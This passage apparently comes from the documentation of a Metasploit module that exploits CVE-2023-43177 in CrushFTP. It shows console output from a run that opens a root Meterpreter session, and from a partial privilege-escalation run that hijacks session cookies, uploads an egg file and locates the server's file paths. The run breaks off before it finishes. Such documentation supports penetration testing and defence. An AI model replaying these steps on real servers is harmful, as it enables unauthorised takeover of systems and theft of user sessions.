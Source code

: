 ```
[+] Deleted ./WebInterface/Resources/libs/jq-3.6.0_040ed0cbc9-js
[*] Meterpreter session 13 opened (10.4.227.33:63705 -> 192.168.101.96:4444) at 2024-03-22 19:10:03 +0100

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer        : ip-10-10-0-10
OS              : Linux 6.5.0-1014-aws (amd64)
Architecture    : x64
System Language : en
Meterpreter     : java/linux
```


#### With an active non-privileged session (privilege escalation)
```
msf6 exploit(multi/http/crushftp_rce_cve_2023_43177) > exploit rhosts=192.168.101.96 verbose=true

[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking CrushFTP Server
[*] Getting a new anonymous session
[*] Anonymous session cookie: 1711131564348_M6LZ3JOkdP3AHww0Xsr8nVdNLVDPOv
[*] Checking if the attack primitive works
[*] Logging out session cookie `1711131564348_M6LZ3JOkdP3AHww0Xsr8nVdNLVDPOv`
[+] The target appears to be vulnerable.
[*] Downloading the session file
[*] Getting a new anonymous session
[*] Anonymous session cookie: 1711131566040_JXiaRnA4jAMCIqnwiSbWGxPf7pAzHD
[*] Getting session file at `WebInterface/Resources/libs/jq-3.6.0_4cf0853fb7-js/`
[+] Session file downloaded
[*] Logging out session cookie `1711131566040_JXiaRnA4jAMCIqnwiSbWGxPf7pAzHD`
[*] Looking for the valid sessions
[*] Found 1 session cookies in the session file
[*] Cookie `1711131525923_krJ319nYz6GDz4VXkOfUQjbkHzaG0F` is valid session (username: msfuser)
[*] Checking if user msfuser is an admin (cookie: 1711131525923_krJ319nYz6GDz4VXkOfUQjbkHzaG0F)
[*] Could not find any admin session or the admin account creation failed
[*] Attempting privilege escalation with session cookie {:cookie=>"1711131525923_krJ319nYz6GDz4VXkOfUQjbkHzaG0F", :username=>"msfuser"}
[*] Looking for a directory with write permissions
[+] Found a writable directory: /home/readonly/writable1
[*] Uploading the egg file `e5d3f50f45`
[*] Uploading `user.XML` to /home/readonly/writable1/user.XML
[*] Looking for the egg in the session file
[*] Getting a new anonymous session
[*] Anonymous session cookie: 1711131576980_gK0M9IhcvhrhXVrAwRqS1rd8ESJ7ry
[*] Getting session file at `WebInterface/Resources/libs/jq-3.6.0_4cf0853fb7-js/`
[+] Session file downloaded
[*] Session file has not changed yet, skipping
[*] Logging out session cookie `1711131576980_gK0M9IhcvhrhXVrAwRqS1rd8ESJ7ry`
[*] Egg not found, wait 30 seconds and try again... (Ctrl-C to exit)
[*] Looking for the egg in the session file
[*] Getting a new anonymous session
[*] Anonymous session cookie: 1711131609587_sKMgxtPNJg78LMAQkx7uLVEOUGyD4G
[*] Getting session file at `WebInterface/Resources/libs/jq-3.6.0_4cf0853fb7-js/`
[+] Session file downloaded
[*] Logging out session cookie `1711131609587_sKMgxtPNJg78LMAQkx7uLVEOUGyD4G`
[*] Found the egg at FILE://home/ubuntu/CrushFTP10/home/readonly/writable1/e5d3f50f45 in the session file
[+] Found path `/home/ubuntu/CrushFTP10/home/readonly/writable1/` and it is Unix-like
[+] Found the file system path: /home/ubuntu/CrushFTP10/home/readonly/writable1/
[*] Getting a new anonymous session
[*] Anonymous session cookie: 1711131611903_PY71NprjquBlrPlZhYdnyk5JHGNfzo
```